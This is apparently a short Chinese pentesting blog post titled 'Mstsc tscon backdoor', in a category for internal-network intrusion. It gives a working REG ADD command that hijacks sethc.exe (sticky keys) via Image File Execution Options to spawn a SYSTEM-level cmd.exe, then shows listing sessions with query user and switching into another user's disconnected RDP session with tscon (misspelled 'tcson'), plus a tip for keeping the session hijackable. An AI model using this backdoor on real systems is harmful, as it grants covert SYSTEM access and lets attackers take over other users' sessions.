 ```yaml
---
title: "Mstsc tscon 后门"
date: 2018-07-11T00:00:00+08:00
draft: false
tags: []
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


**System 权限**

`nt authority\system`

shift 注册表劫持.

<!--more-->

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

`query user` 查看 ID.

```
USERNAME        SESSIONNAME     ID  STATE  IDLE TIME   LOGON TIME
administrator   rdp-tcp#1        1  Disc       none    6/30/2018 10:00
```

输入命令 `tcson 1`

*注意关闭远程桌面的时候不要点注销, 而是直接点右上角的X, 这样下次连接的时候还能进行切换.*